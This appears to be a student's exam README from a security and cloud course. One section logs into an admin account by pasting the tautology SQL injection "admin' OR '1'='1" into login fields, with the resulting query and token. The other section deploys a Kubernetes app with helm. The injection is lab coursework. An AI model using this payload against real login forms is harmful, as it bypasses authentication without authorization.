


# К экзамену

## Обеспечение защиты процессов разработки

### Задание

Необходимо зайти под админской УЗ по указанному в задании адресу, используя уязвимости.

### Решение

[Tautology-Based SQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#entry-point-detection).

В поля вставила:

```sql
admin' OR '1'='1
```

Предположительно, в SQL сработало так:

```sql
...
WHERE username = 'admin' OR '1'='1'
AND password = 'admin' OR '1'='1';
```

В этом случае получается, что значение всегда истинно.

Результат:


Полученный ключ:

```json
{
  "iat": 1781964761,
  "name": "ITMO Student",
  "role": "user",
  "sub": "1",
  "username": "student"
}
```

## Облачные и кластерные технологии

### Требования

- кластер (либо локально minikube)
- kubectl
- helm

### Запуск

Перейти в папку exam-web и запустить `helm install exam-web .`

Начнется разворачивание ресурсов. Проверить ресурсы можно так: `kubectl get all -n eaxm-k8s`

Далее необходимо прокинуть порт `kubectl -n exam-k8s port-forward service/exam-web-service 8080:8080` и убедиться, что команда в терминале `curl http://localhost:8080` отдает html-страницу.

Для обновления ресурсов необходимо выполнить `helm upgrade exam-web .`

### Пример работы

